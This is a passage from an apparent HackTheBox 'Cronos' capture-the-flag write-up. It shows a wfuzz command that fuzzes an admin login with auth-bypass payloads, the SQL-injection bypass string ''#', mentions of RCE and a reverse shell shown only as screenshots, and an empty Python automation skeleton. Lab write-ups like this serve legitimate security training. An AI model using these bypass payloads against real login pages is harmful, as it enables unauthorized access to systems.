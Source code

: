 We just try to bypass it with a list of payloads for auth bypass

```sh
wfuzz -z file,list.txt -d "username=adminFUZZ&password=admin" --hc 200 http://admin.cronos.htb/
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:09:43.png)

And a bunch of them worked

Let's use the simplest one

`'#`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:11:21.png)

And we are in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:11:30.png)

And with a simple payload we got RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:12:00.png)

And a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:17:46.png)

Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
